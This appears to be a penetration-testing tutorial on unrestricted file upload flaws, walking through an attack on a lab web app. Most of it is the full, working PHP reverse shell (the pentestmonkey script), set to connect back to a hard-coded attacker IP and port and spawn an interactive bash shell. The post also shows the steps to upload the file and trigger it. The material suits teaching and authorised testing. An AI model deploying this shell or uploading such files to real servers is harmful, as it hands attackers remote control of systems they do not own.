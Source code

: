 ```yaml
---
title: Unrestricted File Upload
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Unrestricted File Upload]
tags: []  
---
```


# Unrestricted File Upload

Unrestricted File Upload allows the attacker to upload or transfer files of dangerous types that can be automatically processed within the product's environment. 

# Exploitation

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload1.png)

This webapp is vulnerable to Unrestricted File Upload, which allows attacker to upload file of any format. We will exploit this vulnerablity to get remote command execution.

Let's upload an image file to see how the webapp is behaving.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload2.png)

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload3.png)

As you can see, after uploading the image, we can view it by clicking on the link `here`.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload4.png)

We are going to create malicious php file and upload it to the server, which if executed will provide us with reverse shell.

This is the content of the file.

```php

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.43.1';
$port = 10000;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```
![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload5.png)

We have uploaded our php file on the server. We will get a reverse shell by clicking on the link.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload6.png)


# References

- [https://cwe.mitre.org/data/definitions/434.html](https://cwe.mitre.org/data/definitions/434.html)
- [https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
